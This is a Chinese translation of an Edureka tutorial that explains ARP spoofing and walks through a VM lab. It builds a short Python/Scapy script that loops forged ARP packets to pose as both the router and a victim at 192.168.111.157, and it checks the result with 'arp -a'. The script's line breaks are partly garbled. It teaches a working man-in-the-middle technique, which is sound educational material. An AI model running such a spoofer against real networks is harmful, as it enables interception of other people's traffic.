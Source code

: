 # ARP 欺骗——用 Python 实现道德黑客的自动化

> 原文：<https://medium.com/edureka/python-arp-spoofer-for-ethical-hacking-58b0bbd81272?source=collection_archive---------1----------------------->

![](img/d17560fc5c62841c3ce60c51457fb4eb.png)

当你告诉别人你是一个有道德的黑客时，他们看着你就像你是一个巫师。好吧，这就是做一个有道德的黑客:有知识，有能力，有良心去做正确的事情！就像巫师的魔杖一样，Python 让有道德的黑客变得更加强大。在上一个教程中，您看到了如何使用 Python 编写 MacChanger。在本教程中，你将看到如何使用 Python 进行 **ARP 欺骗**。

我将讨论以下主题:

*   什么是 ARP 欺骗？
*   编写一个 ARP 欺骗器

我知道你们都在炒作自动化道德黑客，但首先，你应该知道什么是 ARP 欺骗。

# 什么是 ARP 欺骗？

现在每个人都在使用 WiFi，你也是其中之一。你知道当你连接到路由器时数据是如何流动的吗？您的系统和路由器附带有 IP 地址。当您连接到路由器时，数据流在两个 IP 地址之间流动。路由器向您系统的 IP 地址发送数据，您的系统也向路由器的 IP 地址发送数据。

**ARP 欺骗**是一种通过伪造 IP 地址将网络流量重定向到黑客的技术。太技术化？让我为你使它变得简单。当一个系统和路由器之间(基本上是两个 IP 地址之间)有连接时，黑客会伪造他/她的 IP 地址。黑客会告诉 1)路由器他/她是系统，2)系统他/她是路由器。现在路由器会把数据发给黑客而不是系统，系统会把数据发给黑客而不是路由器。因此，网络流经黑客。

![](img/5ac525f00f47c870128c9436f921efce.png)

现在我们知道了什么是 ARP 欺骗器，让我们用 Python 来构建它们吧！

# 编写一个 ARP 欺骗器

当我向您解释 ARP 欺骗时，我告诉过您它会重定向流量。要进行 ARP 欺骗，我们需要 3 个节点。一个是黑客节点，另外两个是系统，它们之间有一些通信。

对于本教程，我将使用虚拟机来创建节点。我将运行两台虚拟机，其中一台是黑客，另一台是受害者。第三个节点呢？嗯，那将是虚拟机连接到的路由器。

***我的设置如下:我有两台连接到路由器的虚拟机。***

在我们写一个 ARP 欺骗器之前，我们需要得到一些数据。因为黑客系统会伪造它的 IP 地址，我们应该知道路由器和受害者系统的 IP 地址和 MAC 地址。

要找到受害者和路由器的 IP 地址，从黑客的机器上运行以下命令:

```
$ arp -a
```

这将列出该网络中所有系统的 IP 地址和 MAC 地址。

![](img/20f0e429ad9535410d2857e81424b775.png)

这里，网关是路由器，对于这个演示，我将选择 IP 地址为 **192.168.111.157** 的系统作为受害者。

在我们运行 ARP 欺骗器之后，我们需要一种方法来验证我们的 ARP 欺骗器是否工作。在现实世界中，ARP 欺骗的成功/失败取决于黑客系统的输出。但是对于这个演示，我们将使它变得简单。由于我们正在运行虚拟机，我将切换到受害者系统并检查路由器的 MAC 地址。

为此，在受害者系统的终端中运行以下命令:

```
$ arp -a
```

![](img/b56a158ead249152c61a92ceba358215.png)

查看路由器的 MAC 地址，这将在我们运行脚本后发生变化。

现在我们有了欺骗所需的数据，我们准备编写一个 ARP 欺骗器。

要写一个 ARP 欺骗的欺骗器，我们来运行 PyCharm。要启动 PyCharm，请转到 PyCharm 被解压缩的目录并运行 shell 脚本。

```
$ cd pycharm-community-2018.3.4/ 
$ cd bin/ 
$ ./pycharm.sh
```

您将看到 PyCharm 的欢迎屏幕。点击**“创建新项目”**

![](img/c7d8859271334c32f87cc71bc8ada996.png)

输入项目的名称。我将这个**命名为 arp_spoof。**然后点击**创建**。

![](img/fc294610f2647b390c52b1d63a80d46a.png)

你现在将看到工作场所。接下来，让我们创建一个 Python 文件。为此，右键单击项目名称，转到“**新建**”，然后单击“ **Python 文件**”。现在，您可以在这里编写 Python 脚本。

我正在编写的 ARP 欺骗器将使用 Python 的 **Scapy** 模块，这是一个包操作工具。

下面是 ARP 欺骗器的 Python 脚本:

```
import scapy.all as scapwhile True:
    packet = scap.ARP(op=1, pdst="192.168.111.157", hwaddr="00:0c:29:1e:76:af", psrc="192.168.111.2")
    scap.send(packet) #Packet telling the Victim (with ip address 192.168.111.157) that the hacker is the Router.packet = scap.ARP(op=1, pdst="192.168.111.2", hwaddr="00:50:56:e7:86:57", psrc="192.168.111.157")
    scap.send(packet) #Packet telling the Router (with ip address 192.168.111.2) that the hacker is the Victim.
```

运行此脚本，网络将被重定向。让我们来验证它是否真的有效。在受害者的系统中，运行以下命令:

```
$ arp -a
```

![](img/155a5f477ca1d187ac1ed5c3cf2b0a97.png)

可以看到路由器 IP 的 MAC 地址被改成了黑客系统的 MAC 地址。这意味着网络被重定向到黑客，来自受害者系统的数据被黑客系统认为是路由器。

恭喜你！您已经用 Python 编写了一个 ARP 欺骗器，并看到了它的运行。如果你想查看更多关于人工智能、DevOps、云等市场最热门技术的文章，你可以参考 [Edureka 的官方网站。](https://www.edureka.co/blog/?utm_source=medium&utm_medium=content-link&utm_campaign=python-arp-spoofer-for-ethical-hacking)

请留意本系列中的其他文章，它们将解释网络安全的各个方面。

> 1.[什么是网络安全？](/edureka/what-is-cybersecurity-778feb0da72)
> 
> 2.[网络安全框架](/edureka/cybersecurity-framework-89bbab5aaf17)
> 
> 3.[隐写术教程](/edureka/steganography-tutorial-1a3c5214a00f)
> 
> 4.[什么是网络安全？](/edureka/what-is-network-security-1f659407dcc)
> 
> 5.[什么是计算机安全？](/edureka/what-is-computer-security-c8eb1b38de5)
> 
> 6.[什么是应用安全？](/edureka/application-security-tutorial-e6a0dda25f5c)
> 
> 7.[渗透测试](/edureka/what-is-penetration-testing-f91668e2291a)
> 
> 8.[道德黑客教程](/edureka/ethical-hacking-tutorial-1081f4aacc53)
> 
> 9.[关于 Kali Linux 你需要知道的一切](/edureka/ethical-hacking-using-kali-linux-fc140eff3300)
> 
> 10.[使用 Python 的道德黑客](/edureka/ethical-hacking-using-python-c489dfe77340)
> 
> 11. [DDOS 攻击](/edureka/what-is-ddos-attack-9b73bd7b9ba1)
> 
> 12.[使用 Python 的 MAC changer](/edureka/macchanger-with-python-ethical-hacking-7551f12da315)
> 
> 13 [什么是密码学？](/edureka/what-is-cryptography-c94dae2d5974)
> 
> 14. [Proxychains，Anonsurf & MacChange](/edureka/proxychains-anonsurf-macchanger-ethical-hacking-53fe663b734)
> 
> 15.[足迹](/edureka/footprinting-in-ethical-hacking-6bea07de4362)
> 
> 16.[50 大网络安全面试问答](/edureka/cybersecurity-interview-questions-233fbdb928d3)

最初发表于 2019 年 3 月 4 日 www.edureka.co。
